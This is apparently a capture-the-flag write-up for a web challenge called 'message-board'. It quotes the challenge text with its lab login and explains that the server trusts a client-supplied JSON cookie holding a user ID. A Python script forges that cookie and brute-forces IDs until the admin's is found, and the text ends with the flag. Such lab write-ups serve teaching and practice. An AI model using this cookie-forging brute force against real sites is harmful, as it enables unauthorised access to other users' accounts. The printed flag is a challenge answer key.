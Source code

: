 *Your employer, LameCompany, has lots of gossip on its company message board: message-board.hsc.tf. You, Kupatergent, are able to access some of the tea, but not all of it! Unsatisfied, you figure that the admin user must have access to ALL of the tea. Your goal is to find the tea you've been missing out on.*

*Your login credentials: username: kupatergent password: gandal*

*Server code is attached (slightly modified).*

<br>
From the source code we can find, that the flag is printed, if the json cookie userData contains userID, which corresponds to the admin's id. We can brute force this with the following script:

```python
import requests

url = "https://message-board.hsc.tf/"

cookie = 'j:{"userID":"0","username":"admin"}'

for i in range(238, 1000):
    cookie = 'j:{"userID":"' + str(i) + '","username":"admin"}'

    r=requests.get(url, cookies={"userData":cookie})

    print(i, r.text[1413:1418], r.text[1428:1478].replace("\n", ""))
```

The line different from the others contains the flag `flag{y4m_y4m_c00k13s}`.